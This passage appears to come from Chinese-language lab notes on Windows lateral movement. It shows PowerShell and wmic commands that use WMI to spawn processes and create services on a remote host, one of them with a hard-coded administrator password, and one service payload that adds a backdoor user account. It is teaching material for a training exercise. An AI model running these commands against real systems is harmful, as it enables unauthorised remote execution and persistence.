 - Ports:
  - 135/TCP, 49152-65535/TCP (DCERPC)
  - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

我们可以利用 Windows Management Instrumentation (WMI) 从 Powershell 远程生成一个进程，向 Win32_Process 类发送一个 WMI 请求，在之前创建的会话中生成该进程：

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

:::tip

WMI 不会允许您查看任何命令的输出，但确实会悄悄地创建所需的进程。

:::

在旧系统上，可以使用命令提示符中的 wmic 完成相同的操作：

```powershell
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe"
```

### 使用 WMI 远程创建服务

- Ports:
  - 135/TCP, 49152-65535/TCP (DCERPC)
  - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

我们可以通过 Powershell 利用 WMI 来创建服务。要创建名为 THMService2 的服务，可以使用以下命令：

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

然后，我们可以使用以下命令获取服务的句柄并启动它：

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

最后，我们可以使用以下命令停止并删除服务：
